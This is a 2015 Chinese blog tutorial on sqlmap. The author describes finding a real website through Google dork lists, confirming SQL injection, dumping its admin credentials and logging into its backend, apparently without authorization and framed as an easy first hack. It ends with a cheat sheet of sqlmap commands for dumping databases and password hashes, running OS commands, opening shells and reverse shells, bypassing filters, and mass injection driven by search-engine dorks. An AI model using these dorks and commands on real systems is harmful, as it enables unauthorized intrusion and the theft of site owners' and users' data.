 ```yaml
---
layout: post
title: sqlmap 入门
category: Old
tags: sqlmap
keywords: sqlmap
description:
---
```


# sqlmap 入门

> 本文写于 2015.12.11
>
> 本人是遵纪守法的好少年，已上报给乌云

这次攻击毫无技术门槛，任何人都可以复制。只因是自己的第一次嘛，大家都懂的，趁这个机会也学习了些 sqlmap 和 sql 的知识，哈哈哈哈，开心就好。

Sqlmap 是一款非常强大的开源 sql 自动化注入工具，可以用来检测和利用sql注入漏洞。它由python语言开发而成，因此需要安装python环境。

注意： sqlmap 只用来检测和利用 sql 注入点，并不能扫描出网站有哪些漏洞。

首先当然是找到目标，通过一些 Google 的搜索技巧可以找到些问题网站，下面是几个常见的：
- `inurl:index.php?id=`
- `inurl:trainers.php?id=`
- `inurl:buy.php?category=`
- `inurl:article.php?ID=`
- `inurl:play_old.php?id=`
- `inurl:declaration_more.php?decl_id=`
- `inurl:pageid=`
- `inurl:games.php?id=`
- `inurl:page.php?file=`
- `inurl:newsDetail.php?id=`
- `inurl:gallery.php?id=`

通过搜索 `inurl:newsDetail.php?id=` ，我发现了下面这个网站。

![](/post_pic/sqlmap_1.jpg)

点开，在网址最后输入一个单引号( ‘ )，出现如下错误信息，说明这个站点存在 sql 注入漏洞。

![](/post_pic/sqlmap_2.jpg)

接下来利用 Sqlmap 来进行信息收集，先看几个常用的参数：
- `-u` ：该参数后面跟注入的目标URL。
- `–dbms` ：后面是目标站点所使用的数据库类型，注意要用分号来包含。
- `–current-user` ：该参数含义是显示当前管理数据的用户，同时也会显示最终确定的数据库类型。
- `–current-db` ：显示当前连接的数据库名称。
- `–tables` ：列出当前数据库的所有的表名。
- `-C` ：指定我们要猜的字段内容，与 -dump 一起使用。
- `-D` ：指定数据库名称。
- `–columns` ：列出指定表中的字段。
- `-v` ：指定哪个字段开始列出结果，一般后面跟0。

下面开始实战。

第一步，我们来扫面当前网站的用户。

![](/post_pic/sqlmap_3.jpg)

得到了数据库版本和当前用户信息。

![](/post_pic/sqlmap_4.jpg)

第二步，获取当前数据库。

![](/post_pic/sqlmap_5.jpg)

获取的数据库名称。

![](/post_pic/sqlmap_6.jpg)

第三步，利用已知信息，结合参数“–tables”，来猜数据库中的表名。

![](/post_pic/sqlmap_7.jpg)

获取的数据库中的表名。

![](/post_pic/sqlmap_8.jpg)

注意：一般与网站后台相关的字段，比如“username, password, admin”等登陆相关的表名要重点关注。

第四步，在这个例子中，相关的是“dl”这个表。

![](/post_pic/sqlmap_9.jpg)

得到下面这个表。

![](/post_pic/sqlmap_10.jpg)

第五步，见证奇迹的时刻到了，利用参数组合获取信息。

![](/post_pic/sqlmap_11.jpg)

得到下面的用户名和密码。

![](/post_pic/sqlmap_12.jpg)

第六步，登陆后台后我们就大功告成了。

![](/post_pic/sqlmap_13.jpg)

就这样，打完收工，好简单啊感觉。

参考资料：
- http://sqlmap.org/
- http://drops.wooyun.org/tips/143
- http://drops.wooyun.org/tips/401


#### 基本步骤
```
sqlmap -u “http://url/news?id=1“ –current-user 获取当前用户名称
sqlmap -u “http://url/news?id=1“ –current-db 获取当前数据库名称
sqlmap -u “http://url/news?id=1“ –tables -D “db_name” 列表名
sqlmap -u “http://url/news?id=1“ –columns -T “tablename” -D “db_name” -v 0 　　　　　 列字段
sqlmap -u “http://url/news?id=1“ –dump -C “column_name” -T “table_name” -D “db_name” -v 0 获取字段内容
```

#### 信息获取
```
sqlmap -u “http://url/news?id=1“ –smart –level 3 –users smart(智能)，level(执行测试等级)
sqlmap -u “http://url/news?id=1“ –dbms “mysql” –users users列数据库用户，dbs列数据库
sqlmap -u “http://url/news?id=1“ –passwords 数据库用户密码
sqlmap -u “http://url/news?id=1“ –passwords -U root -v 0 列指定用户数据库密码
sqlmap -u “http://url/news?id=1“ –dumps -C “column_name” -T “table_name” -D “db_name” –start 1 –stop 20 　　　 列出指定字段
sqlmap -u “http://url/news?id=1“ –dump-all -v 0 列出所有数据库所有表
sqlmap -u “http://url/news?id=1“ –privileges -U root 查看指定用户权限
sqlmap -u “http://url/news?id=1“ –is-dba -v 1 是否是数据库管理员
sqlmap -u “http://url/news?id=1“ –roles 枚举数据库用户角色
sqlmap -u “http://url/news?id=1“ –udf-inject 导入用户自定义函数(获取系统权限！)
sqlmap -u “http://url/news?id=1“ –dump-all –exclude-sysdbs -v 0 列出当前库所有表
sqlmap -u “http://url/news?id=1“ –union-cols union查询表记录
sqlmap -u “http://url/news?id=1“ –cookie “COOKIE_VALUE” cookie注入
sqlmap -u “http://url/news?id=1“ –data “id=3” post注入
sqlmap -u “http://url/news?id=1“ -v 1 -f 指纹判别数据库类型
sqlmap -u “http://url/news?id=1“ –proxy “http://127.0.0.1:8118“ 代理注入
sqlmap -u “http://url/news?id=1“ –string “STRING_ON_TRUE_PAGE” 指定关键词
sqlmap -u “http://url/news?id=1“ –sql-shell 执行指定sql命令
sqlmap -u “http://url/news?id=1“ –os-cmd=whoami 执行系统命令
sqlmap -u “http://url/news?id=1“ –os-shell 系统交换shell
sqlmap -u “http://url/news?id=1“ –os-pwn 反弹shell
sqlmap -u “http://url/news?id=1“ –reg-read 读取windows系统注册表
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” 保存进度
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” –resume 恢复已保存进度
sqlmap -u “http://url/news?id=1“ –msf-path=/…/msf2 –os-pwn 反弹shell需要metasploit路径
sqlmap -u “http://url/news?id=1“ –tamper “base64encode.py” 加载脚本(可利用绕过注入限制)
sqlmap -g “google语法” –dump-all –batch google搜索注入点自动跑出所有字段
```

